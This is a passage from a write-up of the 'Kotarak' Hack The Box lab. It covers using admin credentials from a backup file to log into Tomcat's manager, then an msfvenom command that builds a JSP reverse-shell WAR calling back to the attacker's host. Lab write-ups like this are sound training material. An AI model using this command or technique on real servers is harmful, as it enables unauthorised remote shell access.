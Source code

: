 ![](/Linux/Linux-Hard/Kotarak/Screenshots/tomcat.png)

The admin user in the backup file has access to `manager` and `manager-gui`, so I’ll try visiting (http://10.10.10.55:8080/manager/html) again, and entering the creds lets me in

![](/Linux/Linux-Hard/Kotarak/Screenshots/apache.png)

Once logged into the manager, it is trivial to obtain a shell. 

```sh
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.15 lport=1337 -f war > leshack.war
```
